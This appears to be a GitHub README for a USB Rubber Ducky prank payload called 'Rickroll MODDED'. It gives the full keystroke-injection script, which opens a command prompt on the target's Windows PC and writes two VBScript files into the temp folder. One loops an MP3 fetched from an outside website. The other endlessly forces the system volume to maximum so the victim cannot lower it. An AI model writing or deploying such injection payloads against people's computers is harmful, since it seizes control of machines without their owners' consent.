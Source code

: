 # Rickroll MODDED
This is a modification from the real "Rickroll". It does the same, but it's got a big difference: It sets the volume to the maximum continuously. What happens if someone tries to get down the volume? A vbs resets it to the maximum level. It seems funny, isn't it?
# About...
Version: 1.0

Author: BlueArduino20

# Code for Rubber Ducky
<pre><code>DELAY 3500
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 200
STRING cd %tmp% && copy con rickyou.vbs
ENTER
STRING While true
ENTER
STRING Dim oPlayer
ENTER
STRING Set oPlayer = CreateObject("WMPlayer.OCX")
ENTER
STRING oPlayer.URL = "https://pixelcoding.nl/download/rickroll.mp3"
ENTER
STRING oPlayer.controls.play
ENTER
STRING While oPlayer.playState <> 1 ' 1 = Stopped
ENTER
STRING WScript.Sleep 100
ENTER
STRING Wend
ENTER
STRING oPlayer.close
ENTER
STRING Wend
ENTER
DELAY 100
CTRL z
ENTER
STRING copy con volup.vbs
ENTER
STRING do
  ENTER
  STRING Set WshShell = CreateObject("WScript.Shell")
  ENTER
  STRING WshShell.SendKeys(chr(&hAF))
  ENTER
  STRING loop
ENTER
CTRL z
ENTER
STRING start rickyou.vbs && volup.vbs</pre></code>

# Code for Arduino

<a href="https://github.com/BlueArduino20/Rickroll-MODDED/blob/master/Rickroll-MODDED-for-Arduino.ino">Rickroll-MODDED-for-Arduino.ino</a>
